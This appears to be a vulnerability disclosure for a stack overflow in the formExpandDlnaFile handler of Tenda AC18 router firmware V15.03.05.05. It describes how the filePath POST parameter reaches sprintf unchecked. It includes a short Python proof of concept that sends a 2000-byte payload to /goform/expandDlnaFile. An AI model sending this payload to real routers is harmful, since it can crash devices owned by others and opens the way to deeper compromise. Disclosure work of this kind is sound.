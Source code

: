 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formExpandDlnaFile` function. The `v18` variable receives the `filePath` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `filePath` can trigger this security vulnerability.

![image-20240305164522670](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164522670.png)

![image-20240305162856555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305162856555.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/expandDlnaFile"
payload = b"a"*2000

data = {"filePath": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305164900093](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164900093.png)
